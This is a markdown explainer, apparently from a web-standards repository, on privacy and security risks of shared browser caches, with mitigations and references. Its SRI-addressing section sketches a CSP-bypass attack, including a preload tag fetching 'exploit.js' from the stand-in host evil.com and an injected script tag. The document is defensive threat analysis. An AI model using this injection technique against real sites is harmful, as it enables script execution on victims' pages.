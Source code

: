 # Privacy Risks with Shared Web Resources

This is a collection of the known privacy risks associated with storing web resources in a shared browser cache.

## Unique Payload

The contents in a file in a shared cache can be used as a tracking vector similar to cookies by embedding a unique payload in the file. For example, `https://example.com/uid` can be configured to return a unique value every time it is accessed and set a long cache lifetime on the response. Any page that requests `https://example.com/uid` will get the unique ID from the shared cache.

This risk can be mitigated by requiring the use of [Subresource Integrity](countermeasures.md#subresource-integrity-sri).

## Fingerprinting

If the shared cache can be probed for the existence of a file (and it is best to assume that it can be), then each file can proved 1-bit of information to an attacker. By using 32 unique files, say `https://example.com/uid/1` through `https://example.com/uid/32`, an attacker can generate a unique 32-bit identifier for a given user, set the bits by storing the relevant files and then probe for the ID by checking for the existence of each of the 32 URLs to regenerate the 32-bit unique ID.

## History Sniffing

Being able to probe the shared cache for resources can leak information about the user. This can be a variety of things, including things that may not obviously appear to be a risk but that may still be sensitive to a specific user:

* The authentication provider they use may be identified by locating resources in cache that are unique to that authentication provider. This could be abused to make a phishing attack more effective.
* The bank a user uses could be sniffed in a similar way, making financial attacks more effective.
* The user's location or areas of interest may be leaked by identifying specific map tiles in a shared cache.

## SRI-Addressing

It is tempting to de-dupe the same resource across origins by using the hash of the contents as a cache key in a shared cache (allowing for jquery to be shared for example).

Using the integrity hash of a resource as the cache key in a shared resource cache comes with a significant risk of being able to forge the origin of a resource, allowing for a bypass of ]Content Security Policy](https://www.w3.org/TR/CSP3/) protections.

i.e. Let's say that the integrity hash of a javascript exploit script (`exploit.js`) is `sha256-12345` and you are using a browser where the resource hash, when available, is used as the cache key in a shared cache for a resource.

1. An attacher can stuff the script into the shared cache by loading `<link rel=preload as=script href="https://evil.com/exploit.js" integrity="sha256-12345">`
1. On some other site (`example.com`), say with a cross-site scripting vulnerability and CSP protections to only allow same-origin scripts, the attacker injects `<script src="https://example.com/analytics.js" integrity="sha256-12345">`
1. The browser finds `exploit.js` in the cache with the matching integrity hash of `sha256-12345` and returns it as if it were the contents of `https://example.com/analytics.js` (even if the file does not exist on the origin).
1. Since the result of analytics.js is same-origin, it passes the CSP protections and executes `exploit.js` as if it was on the same origin as the site being attacked.

# References

* [Subresource Integrity Addressable Caching](https://hillbrad.github.io/sri-addressable-caching/sri-addressable-caching.html) - Privacy and risks with using SRI to index caches (most of which apply to shared caches as well).
* [W3C - Consider shared caching](https://github.com/w3c/webappsec-subresource-integrity/issues/22) - Discussion on implementing shared caching.
* [Cache and Prizes](https://infrequently.org/2022/03/cache-and-prizes/) - Discussion on the ecosystem risks of favoring "popular" resources.
* [Chrome http cache partitioning](https://github.com/shivanigithub/http-cache-partitioning) - Discusses the current partitioning scheme and background.